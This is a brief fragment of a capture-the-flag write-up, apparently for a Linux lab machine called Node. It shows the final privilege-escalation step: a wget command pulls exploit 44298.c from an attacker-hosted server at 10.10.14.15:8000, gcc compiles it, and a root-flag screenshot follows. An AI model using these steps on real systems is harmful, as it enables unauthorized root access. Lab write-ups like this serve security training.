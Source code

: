 ![](/Linux/Linux-Medium/Node/Screenshots/seachsploit.png)

```sh
wget http://10.10.14.15:8000/44298.c
```

We compile the exploit using gcc and execute the resulting executable.

```sh
gcc 44298.c -o privsec
```

![](/Linux/Linux-Medium/Node/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------


